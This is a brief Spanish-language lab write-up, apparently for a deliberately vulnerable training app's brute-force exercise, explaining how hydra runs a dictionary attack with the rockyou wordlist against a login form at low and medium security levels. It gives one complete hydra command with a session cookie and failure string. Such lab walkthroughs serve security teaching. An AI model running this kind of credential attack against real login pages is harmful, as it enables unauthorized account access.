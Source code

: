 Utilizando hydra para realizar un ataque de diccionario para encontrar las credenciales de acceso.

La diferencia entre low y medium es el tiempo de respuesta entre accesos.

Comando - nivel medio:
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz 192.168.1.206 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=beb3886943fd6314e7836dc7b8e33d79;security=medium:F=Username and/or password incorrect."

### Nivel LOW

![img](images/Low.png)

### Nivel Medio

![img](images/Medium.png)

